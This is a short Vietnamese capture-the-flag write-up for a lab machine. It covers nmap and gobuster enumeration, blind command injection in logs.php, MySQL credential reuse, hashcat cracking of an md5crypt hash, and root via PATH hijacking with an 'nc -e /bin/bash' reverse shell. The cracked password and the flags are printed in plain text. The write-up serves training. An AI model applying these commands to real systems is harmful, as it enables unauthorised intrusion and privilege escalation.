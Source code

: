 ########################### ENUMURATE ###########################

sai nmap de scan port nao dang mo tren server 

nmap -T4 -sC -sV -Pn 10.10.11.104 -oN nmap.txt

2 port dang mo la 22 (ssh) va 80(http) webserver dang su dung la apache

sai gobuter de brute thu muc 


gobuster dir -u http://10.10.11.104/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x "php"


/index.php            (Status: 302) [Size: 2801] [--> login.php]
/download.php         (Status: 302) [Size: 0] [--> login.php]   
/login.php            (Status: 200) [Size: 2224]                
/files.php            (Status: 302) [Size: 4914] [--> login.php]
/header.php           (Status: 200) [Size: 980]                 
/nav.php              (Status: 200) [Size: 1248]                
/footer.php           (Status: 200) [Size: 217]                 
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/status.php           (Status: 302) [Size: 2968] [--> login.php]              
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/] 
Progress: 2168 / 415288 (0.52%)                                              
/logout.php           (Status: 302) [Size: 0] [--> login.php]                 
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]              
/config.php           (Status: 200) [Size: 0]              

#####################################################################


############################# EXPLOIT ###############################

co file backup.zip => download => doc source => file logs.php co loi

blind command injection 

tao mot reverse shell 

nhung ko co quyen de doc file user.txt, nen can phai dang nhap vao voi quyen m4lwhere 

cho file config.php => co chua username vs password => connect vao mysql 

mysql -u root -p (password trong file config)

tim duoc password cua m4lwhere o trong database 

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.

crack password cua m4lwhere sai hashcat
hashcat -m 500 -a 0 -o cracked.txt hash /usr/share/wordlists/rockyou.txt
-m: loai hash dung de crack
-a : loai attack 0, co nghia la su dung dictionary attack
-o: output cua password da duoc crack



password: ilovecody112235!

nmap ban dau ta biet duoc la co 2 port dang mo la ssh, http , lay username, password login vao

user.txt => dc1e07036f5db6e73dcca8b99e820885

su dung path injection de leo quyen thanh root

ta thay trong file script no dang su dung lenh la gzip, date => co the chon 1 trong 2 de leo quyen root 

ta su dung date de tao reverse shell de chiem quyen root

b1: cd /tmp => echo "nc -e /bin/bash if port" > date
b2: cap quyen thuc thi cho file: chmod +x date
b3: dua path cua file date vao $PATH : export PATH:/tmp:$PATH
b4: sudo file_script => chiem duoc quyen root 


root.txt => e85ef00100f1c552535b5123979535bb

#####################################################################